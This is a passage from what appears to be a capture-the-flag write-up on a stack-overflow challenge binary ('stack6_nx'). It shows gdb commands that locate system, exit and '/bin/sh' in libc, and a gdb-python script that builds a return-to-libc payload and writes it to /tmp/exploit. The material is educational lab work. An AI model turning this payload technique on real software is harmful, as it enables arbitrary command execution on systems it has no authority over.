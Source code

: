 [https://www.aldeid.com/wiki/X86-assembly/Instructions/call](https://www.aldeid.com/wiki/X86-assembly/Instructions/call)

By using our payload, we simulate the **call** instruction manually.

#### 2.2 Quick Solution

Let's check addresses from gdb, then create a simple gdb-py script.

```py
(gdb) break main
 
(gdb) run   

(gdb) info address system
Symbol "system" is at 0xf7e51e70 in a file compiled without debugging.

(gdb) info address exit
Symbol "exit" is at 0xf7e44f50 in a file compiled without debugging.

(gdb) find &system,+9999999,"/bin/sh"
0xf7f71fcc
```

The search process for the address of **/bin/sh** can be done better as I mentioned in **2.3 Improvements for The Solution** section.

Payload can be created in the following format:

**offset + system_address + exit_address + binsh_address**

**The gdb-python script that I wrote:**

```py
from gdb import execute
from re import findall 
from struct import pack

def extract_address(input_string):
	return findall(r"0[xX][0-9a-fA-F]+",input_string)

execute('file stack6_nx')
execute('b main')
execute('r')

offset = "\x41" * 80
exit_address = extract_address(execute('info address exit', to_string=True))[0]
system_address = extract_address(execute('info address system', to_string=True))[0]
binsh_address = extract_address(execute('find &system,+9999999,"/bin/sh"', to_string=True))[0]

print("system address: "+str(system_address)+"\nexit_ address: "+str(exit_address)+"\nbinsh_address: "+str(binsh_address))

print("Payload will be: \noffset + system_address + exit_address + binsh_address\n")

system_address = pack("I", int(system_address[2:],16))
exit_address = pack("I", int(exit_address[2:],16))
bin_sh = pack("I",int(binsh_address[2:],16))

payload = b'\x41'*80 + system_address + exit_address + bin_sh

print("Payload as a bytearray:")
print(payload)

f = open('/tmp/exploit', 'wb')
f.write(payload)
f.close()

```